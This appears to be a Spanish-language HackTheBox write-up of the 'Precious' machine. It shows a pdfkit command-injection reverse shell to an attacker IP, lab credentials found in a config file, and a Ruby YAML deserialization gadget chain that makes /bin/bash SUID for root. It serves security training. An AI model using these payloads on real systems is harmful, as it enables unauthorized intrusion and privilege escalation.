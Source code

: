 ```yaml
---
layout: post
title : "Precious - HackTheBox"
author : elc4br4
image : /assets/images/HTB/Precious-HackTheBox/Precious.jpg
optimized_image : /assets/images/HTB/Precious-HackTheBox/Precious.jpg
tags : [ Linux, HackTheBox ]
description : En esta ocasión resolveremos una máquina Easy de la plataforma HackTheBox, en la que aprovecharemos una vulnerabilidad de pdfkit para ganar acceso y escalaremos privilegios a través de yaml deserialization en un archivo ruby.
---
```


🤔En esta ocasión resolveremos una máquina Easy de la plataforma HackTheBox, en la que aprovecharemos una vulnerabilidad de pdfkit para ganar acceso y escalaremos privilegios a través de yaml deserialization en un archivo ruby🤔.

**Un pequeño INDICE**

1. [Reconocimiento](#reconocimiento).
2. [Explotación](#explotación).
4. [Escalada de Privilegios](#privesc). 

# Reconocimiento [#](reconocimiento) {#reconocimiento}

Como de costumbre lo primero es comenzar con el reconocimiento de puertos usando la herramienta nmap.

```bash
# Escaneo de puertos nmap
-------------------------
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

La máquina tiene dos puertos abiertos, el puerto 80 y el puerto 22, pero necesito averiguar más información sobre ellos, así como la versión que corren cada uno o lo que se ejecuta en cada puerto.

Esto lo hago a través de un escaneo nmap un poco más avanzado.

```bash 
# Escaneo nmap más detallado
----------------------------
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

> Dominio `precious.htb`.

Añado el dominio al archivo hosts de mi máquina local.

Accedo al dominio desde el navegador para ver que hay en el servidor web.

Al acceder encuentro lo siguiente:

![](/assets/images/HTB/Precious-HackTheBox/web.png)

Pruebo a introducir una url con mi dirección ip de la interfaz tun0 (es decir, la de la VPN).

Pero me arroja un error:

![](/assets/images/HTB/Precious-HackTheBox/web2.png)

Se me ocurre ejecutar un servidor de python y volver a probar lo mismo.

```bash
# Python3 server
----------------
python3 -m http.server 8081
```

![](/assets/images/HTB/Precious-HackTheBox/web3.png)

Y al darle a submit se me abre la siguiente ventana.

![](/assets/images/HTB/Precious-HackTheBox/web4.png)

Descargo el archivo pdf y lo analizo con la herramienta `exiftool`.

![](/assets/images/HTB/Precious-HackTheBox/exiftool.png)

Al analizar el archivo puedo ver que ha sido generado por `pdfkit v0.8.6`.

# Explotación [#](explotación) {#explotación}

Por lo que busco en google información al respecto en busca de vulnerabilidad existentes.

Y buscando encuentro el siguiente recurso:

[https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)

```bash
# En el enlace podemos ver un ejemplo de explotación.
http://example.com/?name=#{'%20`sleep 5`'}
```

Por lo que si sustituyo la parte sleep por una reverse shell podría obtener acceso al sistema.

```bash
# Reverse shell
http://10.10.14.27:8081/?name=#{'%20`bash -c "bash -i >& /dev/tcp/10.10.14.27/443 0>&1"`'}
```

Introduzco la reverse shell en el servidor web y obtengo la conexión en mi oyente de netcat.

![](/assets/images/HTB/Precious-HackTheBox/shell.png)

Enumerando un poco puedo ver que existe un directorio bajo el nombre de .bundle donde encuentro unas credenciales del usuario harry.

```bash
bash-5.1$ cat config
cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

Uso las credenciales para conectarme a través de ssh.

```bash
-bash-5.1$ id
uid=1000(henry) gid=1000(henry) groups=1000(henry)
-bash-5.1$ whoami
henry
-bash-5.1$ hostname
precious 
```

# Escalada de Privilegios [#](Escalada de Privilegios) {#privesc}

A continuación toca escalar privilegios, por lo que ejecuto el comando
`sudo -l`.

```bash
-bash-5.1$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Como se puede apreciar, puedo ejecutar como root sin contraseña el binario `ruby` y el fichero `update_dependencies.rb`.

Primero leo el archivo `update_dependencies.rb` y este es su contenido.

```ruby
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

El script carga el archivo `dependencies.yml` por lo que al verlo se me ocurre que podría ser vulnerable a yaml deserialization.

Por lo que busco información al respecto y encuentro este artículo.

[https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/)

Creo un archivo llamado dependencies.yml en la ruta /home/harry con el siguiente contenido:

```yml
 ---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: chmod u+s /bin/bash
          method_id: :resolve 
```

Añado la línea `git_set: chmod u+s /bin/bash` para que al ejecutar el archivo `update_dependencies.rb` cargue el archivo `dependencies.yml` y ejecute el comando que he introducido. 

Lo ejecuto:

```bash
-bash-5.1$ sudo /usr/bin/ruby /opt/update_dependencies.rb 
```

Una vez ejecutado:

```bash
-bash-5.1$ bash -p
bash-5.1# id
uid=1000(henry) gid=1000(henry) euid=0(root) egid=0(root) groups=0(root),1000(henry)
bash-5.1# whoami
root
```

Y listo, ya he escalado privilegios al usuario root.

Máquina pwneada!!!